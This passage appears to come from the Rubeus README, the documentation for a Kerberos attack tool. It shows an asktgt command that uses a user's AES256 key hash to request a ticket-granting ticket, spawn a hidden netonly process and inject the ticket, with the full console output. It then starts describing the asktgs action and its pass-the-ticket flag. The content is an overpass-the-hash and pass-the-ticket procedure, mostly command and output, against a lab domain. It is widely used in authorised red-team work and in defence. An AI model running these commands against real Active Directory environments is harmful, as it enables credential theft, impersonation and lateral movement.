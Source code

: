 
Requesting a ticket via aes256_hmac hash for **dfm.a@testlab.local**, starting a new hidden process and applying the ticket to that logon session. **Note: elevation needed!**

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /domain:testlab.local /aes256:e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27 /createnetonly:C:\Windows\System32\cmd.exe

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Create Process (/netonly)

    [*] Showing process : False
    [+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
    [+] ProcessID       : 7564
    [+] LUID            : 0x3c4c241

    [*] Action: Ask TGT

    [*] Using aes256_cts_hmac_sha1 hash: e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27
    [*] Target LUID : 63226433
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 234 bytes
    [*] Received 1620 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFujCCBbagAwIBBaEDAgEWooIEvzCCBL...(snip)...

    [*] Action: Import Ticket
    [*] Target LUID: 0x3c4c241
    [+] Ticket successfully imported!

**Note that the /luid and /createnetonly parameters require elevation!**


### asktgs

The **asktgs** action will build/parse a raw TGS-REQ/TGS-REP service ticket request using the specified TGT `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the request traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting service ticket to the current logon session. One or more `/service:X` SPNs **must** be specified, comma separated.
